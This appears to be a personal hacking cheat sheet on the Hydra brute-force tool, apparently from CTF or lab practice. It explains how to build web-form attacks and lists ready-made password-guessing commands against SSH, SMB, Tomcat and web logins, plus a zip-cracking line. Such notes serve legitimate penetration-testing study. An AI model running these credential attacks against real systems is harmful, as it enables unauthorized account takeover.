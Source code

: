 ```yaml
---
tags: 🔻 🔻/🃏 Passwords hydra bruteforce
aliases: Hacking Notes
---
```


# Hydra

### Basic Hydra useage

hydra *Username options* *Password options* *Options* *IP Address* *Protocol* -V -f
Can brute force passwords on ssh, ftp, smb, mysql, postgres, telnet

Supported Services  
adam6500 asterisk cisco cisco-enable cvs firebird ftp ftps http\[s\]-{head|get|post} http\[s\]-{get|post}-form http-proxy http-proxy-urlenum icq imap\[s\] irc ldap2\[s\] ldap3\[-{cram|digest}md5\]\[s\] mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3\[s\] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp\[s\] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet\[s\] vmauthd vnc xmpp

**Options**  
-l  Single Username  
-L Username list  
-p Password  
-P Password list  
-t Limit concurrent connections  
-V Verbose output  
-f Stop on correct login  
-s Port
	
	
### Hydra use for HTTPS
	
Brute forcing authentication using Hyrda on a web service requires more research than any of the other services. We will need three main things from the website. The login page, request body, and the error message.

**Website Login Page**  
Let’s start with the main login page we can see the Username and Password fields.
	
**Inspect Elements **
Now that we can see the website we need to inspect the page. Right click on the page and select “inspect element” from the drop-down menu.

**Website Headers**  
Now that we are in the “inspect elements” section we need to get into the headers area.  
Select the Network tab and then attempt to login (This will fail to log in). After the login fails click on the POST Method and then click on “Edit and Resent.”
	
**Information Gathering**  
In this view, we need to focus on four things. Hostname/IP, Login Page, Request Body, and the error message.
	
	
**Command Build**

With all the information that we have collected now let’s build the hydra command.  
Change the *Login page* this value has to start with “/” backspace.  
Change *Request body* with the format from the page. We do need to modify the username and password. Replace the failed username with ^USER^ and the failed password with ^PASS^. This change will allow hydra to substitute the values.  
Change the *Error Message* with the failed login error message.  
Change the *IP Address* with either an IP address or hostname.  
Change the *User* with either username or username list.  
Change the *Password* with either a password or password list.

Layout of command: hydra -L *USER* -P *Password* *IP Address* http-post-form “*Login Page*:*Request Body*:*Error Message*”

# hydra
#hydra 

hydra -l root -P /usr/share/wordlists/rockyou.txt  x.x.x.x  
  
hydra -l boris -P /usr/share/wordlists/fasttrack.txt -f x.x.x.x  
  
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f x.x.x.x  
  
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt x.x.x.x  
  
hydra -l root -P wordlist.txt x.x.x.x  
hydra -L userlist.txt -P bestx.x.x.x  
  
hydra -P wordlist.txt -v x.x.x.x    
  
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password!"  
  
#### ssh 
hydra -f -V -t 1 -C /usr/share/SecLists-5c9217fe8e930c41d128aacdc68cbce7ece96e4f/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -s 22 $IP ssh  
  
#### Hydra for login bypass:  

hydra *http:targetaddress* http-form-post "/TARGETPATH/TARGETPAGE.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt  
hrydra -C /seclist/tomcat-betterdefaultpasslist http-get://ip:port/manager/html  
hydra -C /root/attacker-framework/SecLists/Passwords/Default-Cr edentials/tomcat-betterdefaultpasslist.txt http-get://x.x.x.x  
  
  
  
fcrackzip -D -p ../../wordlists/rockyou.txt -u backup.zip   
  
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc\_login=true&Login=Login:Incorrect password."  
  
#smb  
hydra to crack smb password -> hydra -l qui -P /usr/share/wordlists/fasttrack.txt -e nsr smb://ip